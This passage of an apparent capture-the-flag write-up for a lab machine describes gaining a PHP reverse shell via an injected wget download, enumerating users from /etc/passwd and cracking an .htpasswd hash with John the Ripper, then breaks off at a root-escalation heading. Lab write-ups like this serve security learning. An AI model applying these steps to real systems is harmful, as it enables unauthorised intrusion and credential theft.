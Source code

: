 Its frustrating to use this method to execute commands so lets try getting a shell !

![intercept8](../../assets/img/posts/Convertmyvideo/intercept8.png)

I used `wget` to transfer my payload which ``pentestmonkey's php reverse shell`` to the victim.

![intercept9](../../assets/img/posts/Convertmyvideo/intercept9.png)

Then set up a listerner & execute `php shell.php` to get a reverse shell back .

![revshell](../../assets/img/posts/Convertmyvideo/revshell.png)

We are in as `www-data`.

Lets check what users are on this machine

```bash
www-data@dmv:/var/www/html/admin$ cat /etc/passwd | grep "home"    
cat /etc/passwd | grep "home"
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
dmv:x:1000:1000:dmv:/home/dmv:/bin/bash
```
There is only one user other than root which is `dmv`

Remember? We saw few interesting directories like `.htpasswd` .It contained the following hash
```bash
itsmeadmin:$apr1$tbcm2uwv$UP1ylvgp4.zLKxWj8mc6y/
```
## Jtr

We crack the password using jtr

```bash
➜  yt-convert john --wordlist=/usr/share/wordlists/rockyou.txt hash

Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 SSE2 4x3])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
j**ie           (?)
1g 0:00:00:00 DONE (2021-11-27 07:32) 3.448g/s 993.1p/s 993.1c/s 993.1C/s alyssa..brenda
Use the "--show" option to display all of the cracked passwords reliably
```
Maybe this is the creds to login through the /admin directory which required creds.Anyways no need to check whats in there since we already have a reverse shell.

```bash
QN 2- ❓
What is the user to access the secret folder? - itsmeadmin
```
# Shell as root
